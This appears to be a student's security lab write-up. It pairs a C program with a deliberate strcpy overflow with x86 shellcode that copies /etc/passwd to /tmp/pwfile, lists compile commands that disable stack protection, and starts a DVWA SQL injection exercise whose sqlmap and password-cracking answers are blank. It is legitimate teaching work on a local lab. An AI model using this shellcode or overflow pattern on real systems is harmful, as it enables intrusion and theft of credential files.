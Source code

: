 # Lab #1,22110048, Nguyen Hoang Lam, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
This lab explores how to exploit a buffer overflow vulnerability  
**Question 1**: Exploration of various encryption with openssl
**Answer 1**:
## 1. Compile asm program and C program to executable code:
Compile the `vuln.c` program without stack protection:  
`gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2`  
Compile the Shellcode  
`nasm -f elf32 shellcode.asm -o shellcode.o`  
`ld -m elf_i386 -o shellcode shellcode.o`  
![image](https://github.com/user-attachments/assets/e85de773-01cb-4c7e-b2ba-f32b50b8c21d)  



# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
1.  Pull the DVWA Docker image  
Set up the eviroment  

```bash
docker pull vulnerables/web-dvwa
docker run -d -p 80:80 vulnerables/web-dvwa
```
2.  Access DVWA
Open a web browser and go to: http://localhost
Log in with the default credentials:  
Username: admin  
Password: password
![image](https://github.com/user-attachments/assets/a4f05b15-2710-4ea2-9413-2dc902c95a83)

DVWA etup DB page  
Press Create/Reset Database button  
![image](https://github.com/user-attachments/assets/89b2a4fb-2215-4942-803b-b72d85a1ac0a)  

DVWA SQL Injection page  
Input 1 to trigger the SQL injection  
![image](https://github.com/user-attachments/assets/f25e324a-a3e4-4178-8379-c16550d218c6)  

Get cookies  
cookie value= r4jevan9nq5tqg2mbm135ma2m6
![image](https://github.com/user-attachments/assets/2f2f6a01-db0f-4f15-a462-f2a6e270a076)  


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
